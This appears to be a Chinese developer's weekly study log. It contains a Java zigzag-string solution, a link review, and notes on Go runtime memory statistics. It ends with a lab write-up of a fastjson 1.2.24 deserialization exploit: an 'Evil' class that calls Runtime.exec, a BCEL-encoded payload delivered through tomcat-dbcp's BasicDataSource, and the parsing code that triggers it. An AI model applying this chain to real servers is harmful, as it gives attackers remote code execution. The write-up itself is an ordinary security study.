 
### Algorithm
```
class Solution {
    public String convert(String s, int numRows) {

        StringBuilder[] sb = new StringBuilder[numRows];
        for (int i = 0; i < numRows; i++) {
            sb[i] = new StringBuilder();
        }

        int i = 0;
        while(i < s.length()){
            for (int row = 0; row < numRows && i < s.length(); row++) {
                sb[row].append(s.charAt(i++));
            }

            for (int c = numRows - 2; c >= 1 && i < s.length(); c--) {
                sb[c].append(s.charAt(i++));
            }
        }

        for (int j = 1; j < sb.length; j++) {
            sb[0].append(sb[j]);
        }


        return sb[0].toString();
    }
}
```

### Review
https://povilasv.me/yaml-url-parsing/

挺好的小工具

### Tips
```
1、NumGoroutine 
golang 当前的协程数量，如果持续上升可能是协程泄露

2、LastGC
上次垃圾回收完成时间,是纳秒的单位

3、PauseNs
一个循环队列，记录最近垃圾回收系统中断的时间。纳秒单位，从项目中看最多几毫秒。

4、PauseTotalNs
总的停止时间,纳秒单位。停止时间之和，这个时候只有垃圾回收协程在执行。

5、Alloc
所有堆分配的内存

6、BuckHashSys
用于剖析桶散列表的堆空间

7、DebugGC
当前未使用（没查到使用方法，有时间看源码）

8、EnableGC
垃圾回收是否启用了，一般是true

9、Frees
累积回收的堆对象

10、GCSys
标记垃圾回收使用的内存数

11、GCCPUFraction
垃圾回收时间占CPU工作时间总和

12、HeapAlloc
分配的堆内存数

13、HeapIdle
span中未使用的内存数，提前分配的内存

14、HeapInuse
正在使用的内存块

15、HeapObjects
已经分配的堆内存块数量

16、HeapReleased
返还给操作系统的内存数

17、HeapSys
从操作系统获取的内存，记录了每次获取的最大内存数

18、Lookups 
被runtime监视的指针数

19、MCacheInuse
mcache结构体分配的内存数

20、MCacheSys
mcache从操作系统获取的内存数

21、MSpanSys
mspan从操作系统获取的内存数

22、Mallocs
分配内存的次数

23、NextGC
下次垃圾回收堆目标大小

24、NumForcedGC
强制垃圾回收的次数

25、NumGC
已经完成的垃圾回收次数

26、PauseNs [256]uint64
循环队列，记录垃圾回收中断的时间

27、StackInuse
栈使用的内存块大小

28、StackSys
从操作系统获取的栈内存数

29、Sys
服务现在使用的内存数

30、TotalAlloc
堆累计分配的内存大小
```

### Share

fastjson 漏洞实验

实验版本
fastjson：1.2.24
tomcat-dbcp：7.0.35

1、生成代码class
package com.test.fastjsondemo.demo;

import java.io.IOException;

public class Evil {
    public String getName() {
        System.out.println("i am getterName!");
        return name;
    }
    public void setName(String name) {
        System.out.println("i am setterName!");
        this.name = name;
    }

    public String name;
    static {
        System.out.println("[运行静态区块]");
        
        try{
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }catch (Exception e){
            System.out.println(e);  
        }
        
    }
}

2、构造json
{
  "@type" : "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
  "driverClassLoader" :
  {
    "@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"
  },
  "driverClassName" : "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmSKS$d3$60$U$3d$81$da$84$d2$f2$uEy$L$beh$L4$8a$f8$y$3e$QA$R$E$c62$bapt$s$84$d8$J$b6I$a7I$Z$dc$e9$9e$85$3b$c7$F$LWn$5c$88$p$e8$b0$d0$bd$ff$D$H$ff$84$e3$f9B_T$s3_r$cf$bd$e7$dc$fb$dd$7b$f3$eb$ef$ee$P$Ac$98m$40$iC$K$86$D$YA$a2$B$adP$V$9cWpA$7c$8e$w$b8$Y$40$Yc$K$$$v$b8$i$c0$V$5cUpM$bc$af$cbH$K$ca$b8$8c$h2nJ$f0YZ$d6$90$Q$9e$5b$d5$d645$a3Yi5$e5$e6M$x$9d$94P$af$a5$e9$92f$q$c8i$c3$9d$f7$C$p$d1$d8Q$a1$beI$7b$85$de$e69$d32$e6$L$d9e$p$bf$a4$zg$88$c8N$89$d9$k$fd$9f$Y$7b$y$c1O$ed$J$91$a8$3e$gc$w$bfS4$7d$d1$Z$cf$3dnZ$a6$7b$d3s$d3$ML$ad$ebF$ce5m$cb$91qK$822$aeg$8a$B$a1$94$ab$e9$_$lj9$_5$_$ca$e8$94$5d$c8$eb$c6$b4$vJ$JL$ad$99$99$d1$84$uB$c6$ed$m$spGB$8b$d9$afe$fbY$82k$e4E$9d$D2$s$83$b8$8b$9e$m$da$Q$v$f9$9d$8a$9f$97$ac$a2$b0$d2$81$m$daq$bc$E$3bU$f0$AN$b1$b3$k$ac$b3$5e7_$d0$5d$3b$3fJ$89$c8$d3$fd$9fo$f7$3fl$fc$d9$7c$ff$fb$f5$9b$bd$8d$dd$bd$cdw$cfdL$F1$8d$7b$S$G$ec$9ca$f5$ab$T$b9$5c$c6$d45$ef$b2$ea$a4$96$d1$L$Z$8d$C$J$z$97$L$e2$3e$d8$ac$b6JG$cb$7d$R$d5$3f$90$c0$94Y$d55$iW$7d$a19$ee$aac$5b$xF$d6V$bd$c3k$E$efVa$_$y$af$g$ba$5b$S4muf$a1$yx$u0$f5$caq$8d$y$a7a$X$Y$de$3eW$8a_$e4$3c$5dN$d5$d0$b2$c9$w$99$w$98$bb$90$TV$86$82$ad$V$c1G$F$cb5$c5$7e$E$d8$d1$b2$d1$7eh$cd$8a$b0$d83c$dd$d0$r$M$k$b5KU$d0b$de$d6$N$c7I$d6l$dd$c1$z$b9u$iM$x$7f$Q$a0$O$92$98$b3$f7$c5$v$f2$ed$tr$C$j$3c$3bi$c5$bc$I$m$f4$FR$b8n$H$f5$f1$af$f0$7d$s$m$a1$8bg$80n$40$86$c2GB7z$8a$b4$Eq$e1i$S$b4c$826$b4$N$dfV$99$d7$84z$9eA$b2B$7c$9a$88$f6$a2$ef$a8$94$fe$83$94$f2$a7$9a$94m$a4F$88$9cD$ffQ$v$VA$eb$de$86$5c$9b$b2$83$bcN$a6$ec$o$ca$f5$qCpGJ$v$e3$df$d0$m$f8$B$f2k$a9$7d$f01$9d$d8$ea$d3$b4$7c$f4$9d$a1$d8Y$8a$i$U$f0$bc$u$d2$x$E$g$v$f0$j$c1ph$HMO$3e$a2q$96$60$7c$H$z$5b$MQ$d8$fb$I$9a$Z$$$c4$bb$d8qxR$83$c4$e3$f4D9$89$Y$5b9$8cs$5es$eb$96d$M$ca$qF$bd1$c5$fe$B$b3$a1$ea1$F$F$A$A"
}
3、运行起来
StringBuffer Buffer = new StringBuffer();
readToBuffer(Buffer,"/Users/liushulong/Desktop/fastjson/command.json");
Object obj= JSON.parseObject(Buffer.toString());
